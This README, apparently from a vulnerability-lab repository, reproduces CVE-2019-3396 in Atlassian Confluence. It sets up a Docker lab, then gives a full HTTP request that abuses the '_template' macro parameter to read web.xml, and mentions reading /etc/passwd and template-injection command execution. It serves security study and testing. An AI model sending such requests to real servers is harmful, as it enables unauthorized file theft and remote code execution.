





# Atlassian Confluence Path Traversal and Command Execution Vulnerability (CVE-2019-3396)

[中文版本(Chinese version)](README.zh-cn.md)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

An unauthorized directory traversal vulnerability exists before version 6.14.2 of Atlassian Confluence, which an attacker can read arbitrary files or execute arbitrary commands using Velocity template injection.

Reference:

- https://paper.seebug.org/884/
- https://jira.atlassian.com/browse/CONFSERVER-57974

## Vulnerability Environment

Start a Confluence Server 6.10.2 by executing the following command.

```
docker-compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian (do not select Data Center and Addons):



Then just click Next to install. This step of small memory VPS may fail to install or take a long time (it is recommended to use a machine with more than 4G memory for installation and testing), please wait patiently.

If prompted to fill in the cluster node, the path can be filled in with `/home/confluence`.



You may be asked to fill in the database account password, choose the postgres database, the address is `db`, the account password is `postgres`:



## Exploit

The file `web.xml` can be read by sending the following packet.

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId": "786458", "macro":{"name": "widget", "body":"", "params":{"url": "https://www.viddler.com/v/23464dc6", "width": "1000"," height": "1000","_template":". /web.xml"}}}
```



Confluence before 6.12 did not restrict the protocol and path for file reading, we can use `file:///etc/passwd` to read files, or `https://...` to load remote files.

If the file is a Velocity template, and we can execute arbitrary commands via template injection (SSTI):


